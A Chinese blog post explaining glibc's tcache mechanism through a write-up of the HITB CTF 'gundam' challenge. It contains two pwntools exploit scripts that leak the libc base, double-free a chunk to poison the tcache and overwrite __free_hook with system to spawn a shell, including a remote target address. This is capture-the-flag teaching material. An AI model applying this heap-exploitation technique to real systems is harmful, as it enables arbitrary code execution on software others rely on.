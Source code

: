 ```yaml
---
layout:     post
title:      Tcache机制介绍
subtitle:    tcache
date:       2019-1-15
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
    - 堆
---
```



> tcache介绍



libc2.26之后增加了tcache机制

这是大佬写的介绍，我自己还有测试 T_T

http://p4nda.top/2018/03/20/tcache/

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/tcache_attack/

https://www.anquanke.com/post/id/104760

下面的题目是一道具体的tcache利用。

# gundam题目解析

![](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1547557808506.png)

保护全开

首先运行题目，

```shell
root@VM-0-13-ubuntu:/home/ubuntu/hitbctf/gundam # ./gundam 

1 . Build a gundam 
2 . Visit gundams 
3 . Destory a gundam
4 . Blow up the factory
5 . Exit

Your choice : 
```

main函数如图，

![1547557851256](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1547557854305.png)

进行测试

![1547699993732](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/7699996599.png)

![1547699952444](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/5C1547699958781.png)

而destoy函数如图

![1547702466267](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/2468327.png)

他并没有把结构体给free掉，

![1547703262626](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/262626.png)

而我们的blow up函数，是用来free上边的块的

![1547734299758](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/734299758.png)

首先获得libc的地址

这个不管libc的版本是否大于2.26都可以运行。

```python
#coding:utf-8
from pwn import *
debug = 1

if debug:
        p = process('./gundam')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        context.log_level = 'debug'
        context.terminal = ['tmux', 'split', '-h']
        gdb.attach(p)
else:
        p = remote('47.75.37.114', 9999)
        libc = ELF('./libc.so.6')
        context.log_level = 'debug'
        #libc = ELF('./libc-2.23.so')
        #off = 0x001b0000

def build(name,type):
        p.recvuntil('choice :')
        p.sendline('1')
        p.recvuntil('The name of gundam :')
        p.send(name)
        p.recvuntil('The type of the gundam :')
        p.sendline(str(type))
def visit():
        p.recvuntil('choice :')
        p.sendline('2')
def destroy(index):
        p.recvuntil('choice :')
        p.sendline('3')
        p.recvuntil('Which gundam do you want to Destory:')
        p.sendline(str(index))
def blow():
        p.recvuntil('choice :')
        p.sendline('4')
for i in range(0,9):
        build('p4nda',1)
for i in range(0,9):
        destroy(i)
blow()
for i in range(0,7):
        build('a'*8,1)
build('a'*8,1)
build('a'*8,1)
visit()
p.recvuntil('Gundam[7] :aaaaaaaa')
libc.address = u64(p.recv(6).ljust(8,'\0')) - 88 - 0x18 - libc.symbols['__malloc_hook']
print "libc - >"+hex(libc.address)
```



完整的脚本如图，如果libc<2.26则会报double free的错误。

 ```python
#coding:utf-8
from pwn import *
debug = 1

if debug:
        p = process('./gundam')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        context.log_level = 'debug'
        context.terminal = ['tmux', 'split', '-h']
        gdb.attach(p)

else:
        p = remote('47.75.37.114', 9999)
        libc = ELF('./libc.so.6')
        context.log_level = 'debug'
        #libc = ELF('./libc-2.23.so')
        #off = 0x001b0000

def build(name,type):
        p.recvuntil('choice :')
        p.sendline('1')
        p.recvuntil('The name of gundam :')
        p.send(name)
        p.recvuntil('The type of the gundam :')
        p.sendline(str(type))
def visit():
        p.recvuntil('choice :')
        p.sendline('2')
def destroy(index):
        p.recvuntil('choice :')
        p.sendline('3')
        p.recvuntil('Which gundam do you want to Destory:')
        p.sendline(str(index))
def blow():
        p.recvuntil('choice :')
        p.sendline('4')

for i in range(0,9):
        build('p4nda',1)
for i in range(0,9):
        destroy(i)
blow()
for i in range(0,7):
        build('a'*8,1)
build('a'*8,1)
build('a'*8,1)
visit()
p.recvuntil('Gundam[7] :aaaaaaaa')
libc.address = u64(p.recv(6).ljust(8,'\0')) - 88 - 0x18 - libc.symbols['__malloc_hook']
print "libc - >"+hex(libc.address)
print '[*] system:',hex(libc.symbols['system'])
for i in range(0,8):
        destroy(i)
blow()
build('p4nda',1) #0
build('/bin/sh\0',1) #0 1
build('p4nda',1) #0
destroy(0)
destroy(0)
pause()

build(p64(libc.symbols['__free_hook']),1)# 0 1 2
pause()
build('AAAAAAAA',1)
pause()
build(p64(libc.symbols['system']),1)
pause()
destroy(1)

p.interactive()
 ```

